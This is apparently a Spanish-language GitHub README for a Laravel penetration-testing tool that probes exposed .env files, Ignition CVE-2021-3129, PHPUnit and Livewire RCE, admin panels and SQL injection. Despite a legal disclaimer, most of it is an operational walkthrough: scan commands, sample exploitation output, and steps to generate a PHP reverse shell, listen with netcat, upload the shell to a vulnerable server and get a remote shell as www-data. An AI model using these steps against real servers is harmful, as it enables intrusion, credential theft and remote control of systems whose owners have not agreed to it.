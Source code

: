 
```ascii
██████╗  █████╗ ███╗   ██╗██╗███████╗██╗         ██████╗  █████╗ ███╗   ███╗██╗██████╗ ███████╗███████╗
██╔══██╗██╔══██╗████╗  ██║██║██╔════╝██║         ██╔══██╗██╔══██╗████╗ ████║██║██╔══██╗██╔════╝╚══███╔╝
██║  ██║███████║██╔██╗ ██║██║█████╗  ██║         ██████╔╝███████║██╔████╔██║██║██████╔╝█████╗    ███╔╝ 
██║  ██║██╔══██║██║╚██╗██║██║██╔══╝  ██║         ██╔══██╗██╔══██║██║╚██╔╝██║██║██╔══██╗██╔══╝   ███╔╝  
██████╔╝██║  ██║██║ ╚████║██║███████╗███████╗    ██║  ██║██║  ██║██║ ╚═╝ ██║██║██║  ██║███████╗███████╗
╚═════╝ ╚═╝  ╚═╝╚═╝  ╚═══╝╚═╝╚══════╝╚══════╝    ╚═╝  ╚═╝╚═╝  ╚═╝╚═╝     ╚═╝╚═╝╚═╝  ╚═╝╚══════╝╚══════╝
```

<div align="center">
  
[![Matrix SVG](https://raw.githubusercontent.com/rodrigograca31/rodrigograca31/master/matrix.svg)](https://github.com/ELDANI1)

</div>

# Laravel Security Testing Tool

Herramienta de seguridad para pruebas de penetración en aplicaciones Laravel.

## ⚠️ ADVERTENCIA LEGAL

**ESTA HERRAMIENTA ES SOLO PARA:**

- Pruebas de penetración autorizadas
- Auditorías de seguridad en sistemas propios
- Entornos de testing controlados
- Educación e investigación en seguridad

**NO UTILICES ESTA HERRAMIENTA EN SISTEMAS SIN AUTORIZACIÓN EXPLÍCITA.**

## 🚀 Características

- Detección de archivos .env expuestos
- Prueba de vulnerabilidades Laravel Ignition (CVE-2021-3129)
- Detección de PHPUnit RCE
- Prueba de Livewire RCE
- Fuerza bruta en paneles de administración
- Escaneo de inyecciones SQL
- Búsqueda de archivos sensibles
- Prueba de conexión MySQL
- Generación de reverse shell

## 📦 Instalación

### Requisitos

```bash
# Python 3.6+
python3 --version

# Dependencias
pip3 install requests

# Herramientas opcionales (recomendadas)
sudo apt install mysql-client sqlmap


# Clonar el repositorio
git clone 
cd laravel-security-tool

# Hacer ejecutable
chmod +x laravel_exploiter.py

# Ejecutar directamente
./laravel_exploiter.py

#Escaneo básico

python3 laravel_exploiter.py ejemplo.com

#Escaneo con credenciales de base de datos

python3 laravel_exploiter.py ejemplo.com --db-user admin --db-pass password --db-name laravel_db

#Generar reverse shell

python3 laravel_exploiter.py ejemplo.com --shell

·Todos los parámetros
bash
python3 laravel_exploiter.py https://ejemplo.com \
# --app-key "base64-app-key" \
# --db-user "usuario_db" \
# --db-pass "password_db" \
# --db-name "nombre_db"

Exposición de .env - Verifica si el archivo de configuración está accesible

Laravel Ignition RCE - Prueba CVE-2021-3129

PHPUnit RCE - Detecta eval-stdin.php expuesto

Livewire RCE - Prueba vulnerabilidades en Livewire

Fuerza bruta - Paneles de administración comunes

SQL Injection - Parámetros comunes y payloads básicos

Archivos sensibles - Lista de archivos comunes expuestos

Conexión MySQL - Solo si se proporcionan credenciales

# EJEMPLO DE SALIDA 
🚀 LARAVEL EXPLOITATION TOOL
⚠️  SOLO PARA PRUEBAS ÉTICAS EN SISTEMAS AUTORIZADOS

[*] INICIANDO EXPLOTACIÓN COMPLETA PARA: https://ejemplo.com
============================================================
[*] Verificando exposición de .env...
[+] .env EXPUESTO - Credenciales disponibles
[*] Probando Laravel Ignition RCE (CVE-2021-3129)...
[-] Error en Ignition RCE: timeout
...
[+] RESUMEN DE EXPLOTACIÓN:
[+] ENV_EXPOSED: VULNERABLE
[-] IGNITION_RCE: No vulnerable
...


🤝 Contribuciones
Las contribuciones son bienvenidas. Por favor:

# 1. Generar el shell
python3 laravel_exploiter.py ejemplo.com --shell

# El script preguntará:
# Tu IP para reverse shell: [INGRESA_TU_IP_AQUI]
# Puerto [4444]: [ENTER o ingresa otro puerto]

# 2. Poner tu máquina en escucha (en otra terminal)
nc -lvnp 4444

# 3. Subir el archivo shell.php al servidor vulnerable
# (usando alguna vulnerabilidad encontrada)

# 4. Acceder a la shell subida via navegador o curl
# http://ejemplo.com/shell.php 


## SOLO SI Encuentras que el objetivo tiene .env expuesto

#Descubres credenciales válidas en el panel de admin

#Encuentras un RCE funcionando (Ignition, PHPUnit, etc.)

#Subes el shell.php al servidor

#Accedes via navegador a http://ejemplo.com/shell.php

#Obtienes una shell en tu terminal con Netcat   


#EJEMPLO DE REVERSHELL 
# Terminal 1 - Generar shell
$ python3 laravel_exploiter.py mi-sitio.com --shell
Tu IP para reverse shell: 192.168.1.100
Puerto [4444]: 9999
[+] Reverse shell generado: shell.php
[*] Ejecuta: nc -lvnp 9999 antes de subir el shell

# Terminal 2 - Escuchar conexión
$ nc -lvnp 9999
listening on [any] 9999 ...

# Subir shell.php al servidor (usando vulnerabilidad encontrada)
# Luego acceder via: http://mi-sitio.com/uploads/shell.php

# Cuando se ejecute el shell, verás en Terminal 2:
connect to [192.168.1.100] from (UNKNOWN) [mi-sitio.com] 54322
whoami
www-data
pwd
/var/www/html


Consideraciones importantes:
Firewalls: El servidor podría tener firewalls que bloqueen conexiones salientes

Filtrado: El servidor podría filtrar/borrar archivos .php

Detección: Antivirus/WAF podrían detectar el shell

Permisos: Necesitas permisos de escritura en algún directorio web

# NFO SI PARA QUE NO FALLE KALI 
# Actualizar Kali
sudo apt update

# Instalar dependencias
sudo apt install -y python3 python3-pip mysql-client sqlmap

# Clonar el repositorio
git clone 
cd laravel-security-tool

# Instalar dependencias de Python
pip3 install requests

# Ejecutar
python3 laravel_exploiter.py ejemplo.com
